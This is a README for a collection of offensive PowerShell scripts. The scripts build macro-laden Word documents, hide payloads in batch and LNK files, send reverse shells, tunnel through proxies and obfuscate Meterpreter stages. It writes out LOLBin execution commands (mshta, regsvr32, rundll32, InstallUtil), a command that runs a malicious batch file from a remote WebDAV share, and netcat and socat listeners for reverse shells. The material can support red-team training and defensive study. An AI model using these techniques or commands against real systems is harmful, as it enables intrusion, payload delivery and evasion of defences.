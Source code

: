 PowerShell Scripts
============

Author: Arno0x0x - [@Arno0x0x](http://twitter.com/Arno0x0x)

This repository aims at publishing some of PowerShell scripts. No rocket science, just a few scripts I created either to learn PowerShell or to fit basic needs in my security veil.

Invoke-MacroCreator
----------------
Invoke-MacroCreator is a powershell Cmdlet that allows for the creation of an MS-Word document embedding a VBA macro with various payload delivery and execution capabilities.

Check the directory for further details and explanations.

Invoke-EmbedInBatch
----------------
Inspired by @xorrior, this scripts embeds and hide any type of payload within a batch file and then executes it given a command line specified as an argument. It proposes two different methods for achieving this trick, explained in the script header.
Examples:
```
Invoke-EmbedInBatch -PayloadPath installUtil.dll -FinalCommandLine "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U _payload_"
Invoke-EmbedInBatch -PayloadPath regsvr32.sct -FinalCommandLine "regsvr32.exe /s /u /i:_payload_ scrobj.dll"
Invoke-EmbedInBatch -PayloadPath standard.dll -Method 2 -FinalCommandLine "rundll32.exe _payload_,entrypoint"
Invoke-EmbedInBatch -PayloadPath payload.hta -FinalCommandLine "mshta.exe _payload_"
Invoke-EmbedInBatch -PayloadPath payload.exe -FinalCommandLine "_payload_"
```

The malicious batch file can then be executed locally on a target system, or even downloaded from a remote location with this command line:
`cmd.exe /k < \\webdavserver\folder\malicious_batch.txt`

Invoke-HideFileInLNK
----------------
This script creates a specifically forged link file (.lnk) to embed any type of file in it, as per the technique described here:
https://www.phrozen.io/page/shortcuts-as-entry-points-for-malware-part-3

The embedded file is first extracted from the link file using an inline VBS script, and the file is then called
either directly (if it's an executable or a script), or throuh a so called "Final Command". See examples section from the Invoke-HideFileInLNK function.

Invoke-SendReverseShell
----------------
This script sends a shell to a destination host (reverse shell). This is done:
  - on one side by spawning a cmd.exe child process and redirecting its standard Input, Output and Error streams
  - on the other side by either:
    - directly opening a TCP socket to the remote host, or
    - connecting through a proxy manually specified or by using the system's default one

When using a proxy to connect to the remote host, the proxy must support the CONNECT method and allow it to the destination port. If the destination port doesn't seem allowed by the proxy, try to bind your listener on port 443 as it's very likely that the proxy will allow the CONNECT method at least on that port.

The remote host simply has to listen on a TCP socket, for example:
  - With netcat: `# nc -l -p <any_port>`
  - With socat: `# socat TCP-L:<any_port>,fork,reuseaddr -`


proxyTunnel.ps1
----------------
This script creates a TCP tunnel towards a destination server through the system's default HTTP proxy, automatically handling upstream proxy authentication along the way if ever required. Tested OK with PowerShell v4.

A typical use would be for a client application that either can't handle connection through an HTTP proxy, or that doesn't support some sort of proxy authentication (eg: NTLM). So you would create a tunnel to the final destination (aka 'Origin Server') by having this script listening on a local network socket, and point your application to this local socket instead of the origin server. Well, basically a TCP tunnel...

Example:
```
powershell .\proxyTunnel.ps1 -bindPort 4444 -destHost myserver.example.com -destPort 22
```
From there, an SSH connection to 127.0.0.1:4444 will be tunneled, through the corporate proxy, to myserver.example.com:22

The scripts makes use of two hacks that might not work in future versions of PowerShell:
1. Forces the "CONNECT" method in the HttpWebRequest object, which is not officially allowed
2. Performs some reflective inspection in order to take control back over the underlying network stream once the connection is established (by default, the object is private)

I don't even understand why this is not made possible "by default" with the .Net API...

proxyMeterpreterHideout.ps1
----------------
This script is the client side script for a meterpreter stage download obfuscation technique for a reverse_winhttp payload.
Beware it does *NOT* work with the reverse_winhttpS payload.

Further explanations in the script itself.

![bitcoin](https://dl.dropboxusercontent.com/s/imckco5cg0llfla/bitcoin-icon.png?dl=0) Like these scripts ? Tip me with bitcoins !
![address](https://dl.dropboxusercontent.com/s/9bd5p45xmqz72vw/bc_tipping_address.png?dl=0)